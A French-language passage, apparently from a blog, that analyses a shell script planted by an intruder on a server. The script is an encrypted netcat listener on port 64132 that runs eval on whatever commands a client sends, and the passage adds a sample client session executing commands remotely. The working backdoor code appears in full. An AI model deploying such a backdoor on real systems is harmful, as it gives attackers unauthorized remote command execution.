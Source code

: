 ```bash
#/bin/sh
 
_callback() {
    local line
    while read line; do
        case "${line}" in
            date) printf -- "## "; date;;
            test*) printf -- "## %s\n" "this is just a test";;
            eval*) eval "${line}";;
            *) printf -- "## %s\n" "${line}";;
        esac
    done
}

_certificat() {    
	openssl req -x509 -new -outform pem -nodes -subj "/CN=localhost/" \
	   -keyout /tmp/server.key -out /tmp/server.crt -batch -days 7}
 
_server() {
    mkfifo /tmp/fifo
    cat /tmp/fifo \        
		| nc -k -c -C /tmp/server.crt -K /tmp/server.key -l 64132 \        
		| _callback >> /tmp/fifo
}

_certificat
_server
```

Il semblerait qu’un petit malin ait trouvé un moyen d’arriver à rentrer sur le serveur et y créer un script ! Ce dernier utilise le même principe que celui d’Alice pour l’envoi de mail. Par ailleurs, c’est une version un peu plus évoluée. La fonction `_callback()` récupère des instructions et les exécute en renvoyant la réponse de la commande. À noter la fonction `built-in eval`, qui évalue le contenu de la valeur envoyée par le client. La fonction `_certificat()` permet de générer une clé ainsi qu’un certificat autosigné avec OpenSSL. Finalement, la fonction `_server()` génère un fichier FIFO, puis l’utilise en collaboration avec `netcat`. L’argument `-k` permet de garder le socket ouvert après la déconnexion d’un client, l’argument `-c` permet d’activer le chiffrement des connexions. Les arguments `-C` et `-K` permettent respectivement de configurer le certificat SSL et sa clé. Finalement, l’argument `-l` permet de faire écouter netcat sur le port TCP 64132 sur toutes les interfaces disponibles. Pour utiliser ce serveur, rien de tel que l’utilisation de `netcat` comme client.

```
alice@lingwe$ nc -c -T noverify www.meldo.net 64132
test
## this is just a test
date
## Thu Oct 22 19:32:09 UTC 2020
eval uname -a
OpenBSD www.meldo.net 6.8 GENERIC.MP#98 amd64
eval pwd
/tmp
```
